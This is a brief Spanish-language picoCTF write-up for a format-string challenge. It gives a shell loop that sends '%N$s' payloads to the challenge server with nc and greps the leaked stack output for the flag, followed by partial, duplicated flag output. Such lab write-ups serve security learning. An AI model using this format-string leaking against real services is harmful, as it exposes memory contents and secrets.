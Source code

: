 # Objetivo

Story telling class 1/2 I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/93/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/93/vuln.c). And connect with it using: `nc saturn.picoctf.net 59724`

# Solucion

nos conectamos al servidor y ejecutamos el siguiente comando y nos dara la bandera  

```shell
┌──(kali㉿kali)-[~]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 59055 | grep -Ei (pico|ctf); done
CTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}
FLAG=picoCTF{L34k1ng_Fl4g_0ff_St4ck_


```

# Notas adicionales

# Referencias
